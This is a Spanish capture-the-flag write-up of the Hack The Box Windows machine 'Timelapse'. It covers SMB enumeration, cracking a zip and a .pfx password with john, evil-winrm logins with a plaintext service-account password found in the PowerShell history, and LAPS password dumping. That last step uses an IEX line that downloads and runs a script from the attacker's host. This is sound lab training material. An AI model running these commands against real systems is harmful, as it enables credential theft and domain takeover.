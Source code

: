 ```yaml
---
layout: single
title: Timelapse - Hack The Box
excerpt: "En esta máquina fácil Windows econtraremos un archivo .zip expuesto en el servicio **SMB** el cuál podremos crackear su contraseña con **zip2john**. Dentro habrá un archivo **.pfx** donde podremos obtener un certificado y una clave privada. Antes tendremos que averiguar la contraseña con herramientas como **pfx2john** o **crackpkcs12**. Una vez hecho esto nos podremos conectar al servicio **winrm por ssl** con la herramienta **evil-winrm**. En nuestro camino para convertirnos en Administrator encontraremos unas credenciales en el **histórico de powershell** y posteriormente nos aprovecharmos del grupo **LDAP_readers** para obtener la contraseña del Administrador"
date: 2023-01-18
classes: wide
header:
  teaser: /assets/images/htb-writeup-timelapse/timelapse_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:
  - Windows
  - Crack Zip
  - Extract public and private key in .pfx
  - Powershell History
  - LAPS Readers
---
```


![](/assets/images/htb-writeup-timelapse/timelapse_logo.png)

# Enumeración
Puertos abiertos:
![](/assets/images/htb-writeup-timelapse/nmap_timelapse.png)
Al encontrarnos tantos puertos abiertos debemos seguir un orden para no hacernos un lio. Empezaremos por el **puerto 445 (SMB)**.
```bash
smbmap -H 10.10.11.152 -u 'NULL'
```
Con esto veremos que podemos leer la carpeta **Shares**. usando el parametro -r de smbmap podremos listar lo que hay dentros de dichas carpetas.
```bash
smbmap -H 10.10.11.152 -u 'NULL' -r Shares/Dev
```
![](/assets/images/htb-writeup-timelapse/smbmap_timelapse.png)
Para descargarnos el archivo tenemos el parametro --download
```bash
smbmap -H 10.10.11.152 -u 'NULL' --download Shares/Dev/winrm_backup.zip 
```
A la hora de unzipearlo nos pide una contraseña. Momento de usar **zip2john** y crackear el hash con **john**
```bash
zip2john winrm_backup.zip > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```
Con esto obtenemos el archivo **legacyy_dev_auth.pfx** pero ¿Qué es un archivo .pfx? Con una rapida búsqueda en Google veremos que las características de estos archivos incluyen **certificados digitales** utilizados para procesos de autenticación necesarios para determinar si un usuario o un dispositivo puede acceder a ciertos archivos o a un equipo. Ahora bien, **¿Cómo obtenemos estos certificados?** Pues lo podemos hacer con la herramienta **openssl**

Extraemos la clave privada:
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out clave_privada.key -nodes
```
Extreamos el certificado:
```bash
 openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificado.pem
```
Pero vemos que al hacerlo nos pide una contraseña. Siguiendo el mismo procedimiento que con el archivo .zip podemos usar **pfx2john** o **crackpkcs12.**
Para descargar crackpkcs12: [Descargar](https://github.com/crackpkcs12/crackpkcs12)
```bash
pfx2john legacyy_dev_auth.pfx > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```
```bash
crackpkcs12 -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx
```
Ahora con esta contraseña podremos crear nuestros certificados y con **evil-winrm** conectarnos por ssl ya que está abierto el puerto **5986** y no el 5985
```bash
evil-winrm -i 10.10.11.152 -k clave_privada.key -c certificado.pem --ssl
```
# Escalada de privilegios usuario legacyy
Esta máquina no nos dejaba usar **winPEAS.exe** por lo que tenemos que ir enumerandolo manualmente. Mirando en **hacktricks** vemos una manera de **leer el historico de powershell** donde se pueden estar guardando comandos interesantes. Para verlo hacemos:
```powershell
type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
Y sorpresa!, encontramos las credenciales de **svc_deploy** pero ¿Para que íbamos a querer convertirnos en este usuario? Pues bien si nos conectamos como ese usuario con **evil-winrm** ya que forma parte del grupo **Remote Managment Users**. Para conectarnos como ese usuario con evil-winrm:
```bash
evil-winrm -i 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```
Si vemos los grupos a los que pertenece con este comando, veremos que se encuentra en el grupo **LAPS_readers**
```powershell
net user svc_deploy
```
![](/assets/images/htb-writeup-timelapse/grupo_svc_deploy.png)
# Escalada de privilegios usuario svc_deploy
## ¿Qué privilegios otorga el grupo LAPS_readers?
Los usuarios que forman parte de este grupo pueden gestionar las contraseñas de las cuentas locales de los ordenadores conectados a un dominio. Es decir, podemos leer la contraseña de los usuarios, como el de Administrador. Ahora bien, ¿cómo lo hacemos? Usaremos el siguiente script en powershell: [Get-LAPSPasswords](https://github.com/kfosaaen/Get-LAPSPasswords)
<br>Nos montaremos un servidor en python3 en nuestra máquina:
```bash
python3 -m http.server 80
```
Y nos lo transmitiremos a la máquina con este comando. Así lo interpretaremos a la vez que lo pasamos a la máquina.
```powershell
IEX(New-Object Net.WebClient).downloadString('http://x.x.x.x/Get-LAPSPasswords.ps1')
```
Una vez dentro solo tendremos que escribir: **Get-LAPSPasswords**
![](/assets/images/htb-writeup-timelapse/Get-LAPSPassword.png)
<br>Y por último, nos conectariamos con **evil-winrm** como el usuario **Administrador** con esa contraseña :D

